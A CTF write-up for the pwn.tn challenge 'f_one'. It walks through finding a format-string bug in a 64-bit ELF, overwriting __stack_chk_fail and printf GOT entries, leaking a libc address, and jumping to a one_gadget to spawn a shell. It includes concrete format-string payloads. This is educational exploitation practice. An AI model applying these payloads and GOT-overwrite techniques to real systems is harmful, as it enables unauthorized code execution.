# pwn.tn - f_one

Origin challenge link: https://pwn.tn/challenges

You can also download the challenge at my repo: [f_one.zip](f_one.zip)

The f_one.zip file will include 2 following file:

- f_one

- libc6_2.27-3ubuntu1.2_amd64.so (I download it from https://libc.blukat.me)

Download the challenge and libc, then use [patchelf](https://github.com/NixOS/patchelf) or [pwninit](https://github.com/io12/pwninit) to set interpreter and needed. Now let's begin!

# 1. Find bug

First, we use `file` to get information about challenge:

```
f_one: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1bce1b969e6bb384bc353226a00a7f66c4ab661d, not stripped
```

This is a 64-bit file without being stripped. That's cool!

In this challenge, I will try not to use ghidra to know how program work. Instead, I will try using gdb (with [gef](https://github.com/hugsy/gef)) for this challenge.

There are 2 function in this program: main() and vuln()





main() seems not interesting but vuln() maybe (because its name is vuln :3)

Let's create a breakpoint in vuln() and run all of sub-function:

At puts@plt:



At fgets@plt:



At printf@plt:



Oh wait! Can you see there is something wrong with printf? In C code, the command will be like this `printf(input)` --> Format string!

Also, we can notice at the beginning of vuln:

```
0x00000000004006bb <+4>:	sub    rsp,0x40
```

but fgets@plt get user input up to 0x6c --> Buffer Overflow

Next, let's get security information of file:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We can see `NX` and `Stack Canary` are on. So that we cannot buffer overflow due to stack canary :(

Anyway, let's try to exploit that bug!

# 2. Brainstorming

- First idea:

With format string bug, we need to overwrite some @got to let us take input again, then we try to leak address and overwrite any @got into system, then insert the string '/bin/sh' to spawn a shell.

At first, the script didn't work but now it does. This is my script for first idea: [solve_1.py](solve_1.py)

- Second idea:

After a while on idea 1 but unsucceed, I tried with second idea: using one_gadget. In this idea, we still need to leak address and then overwrite any @got to one_gadget.

- Summary:

  - Overwrite stack_check_fail to vuln() and leak some address

  - Overwrite any @got to one_gadget

# 3. Conduct

- Step 1: Overwrite stack_check_fail to vuln() and leak some address

Let's find where is our input with %p


Our input is at `%6$p`.

But wait! Assume I replace `AAAABBBB` with some 64-bit address, it will have null bytes which will cause printf stop at null byte. Because of that, I will place the `AAAABBBB` at the end of payload. 


And we got `stack smashing detected`. You can see that `0x4242424241414141` is at %12$p and a '\n' byte has overwrite a byte in stack canary. That's why we got `stack smashing detected`.

Now, let's try to overwrite stack_check_fail@got. We can see the value of `stack_check_fail@got = 0x400596` and `vuln() = 0x4006b7`, so we will overwrite 2 byte of stack_check_fail@got using `%hn`.

One thing to notice is our payload need to be long enough to overwrite stack canary to make the program jump in to overwritten stack_check_fail. Our first payload would be like this:

Payload1: ```%c%c%c%c%c%c%c%c%c%c%1709c%hnPPPPPPPPPPPPPPPPPPP\xa0\x0b`\x00\x00\x00\x00\x00```

The character 'P' is used for padding and that should work in and outside gdb!

We can see that our payload1 is still have a lot of padding so we will add something to leak some address (particularly is libc_start_main_ret address)

After a while trying different %p, we got %17$p will leak the address. Let's change a little bit in payload1:

Payload1: ```%c%c%c%c%c%c%c%c%c%c%1709c%hn%17$pPPPPPPPPPPPPPP\xa0\x0b`\x00\x00\x00\x00\x00```

In gdb, it leak the address out!




And outside gdb, address is leaked too!



That's great for step 1. Let's move on step 2.

- Step 2: Overwrite any @got to one_gadget

Now, let's find a one_gadget first:



We can see that the second one_gadget and the third one only require a 8-byte null of stack, they are not dependent as the first one.

We will take the second one_gadget. At this step, it's good to put our payload to a python file and use pwntool to interact with program. When we get the leak address, we can calcuclate the one_gadget address and then start to overwrite.

Let's switch back to gdb. To make sure there is a 8-byte null on stack, we won't overwrite fgets so that we could insert a null byte payload which will meet the requirement of one_gadget (Step 3).

So we will overwrite printf instead. With gdb, we get the address and value of printf@got:


Still in gdb, we can calculate the address of our second one_gadget and see it flow:



You can get the offset of libc_start_main_ret `0x021b97` on https://libc.blukat.me

We have those address here:

```
printf@got:          0x600ba8
printf@got value:    0x7ffff7a48f00
one_gadget:          0x7ffff7a333c2
```

So we will write `0x00` to `0xc2` by using `%hhn` and `0xa48f` to `0xa333` by using `%hn`. Remember to use `%c` for previous address as 1 byte. We will place printf@got as below:

`<printf@got> + <Some 8 byte> + <printf@got + 1>`

because we need to add `%<padding>c` to `<printf@got +1>`

And remember to make payload long enough to jump to overwritten stack_check_fail.

Payload2: ```%c%c%c%c%c%c%c%c%c%185c%hhn%41585c%hnPPP\xa8\x0b`\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa9\x0b`\x00\x00\x00\x00\x00```

Before printf:


After overwrite printf@got:


- Step 3: input null bytes payload

Just simply input null bytes to make sure rsp+0x40 is 8-byte null:

Payload3: `"\x00"*0x50`

Before input payload3 after step 2:



After input payload3:



When execute printf, we create a shell!



# 4. Get flag

This is my script for dynamic address: 

- [solve_1.py](solve_1.py)

- [solve_2.py](solve_2.py)



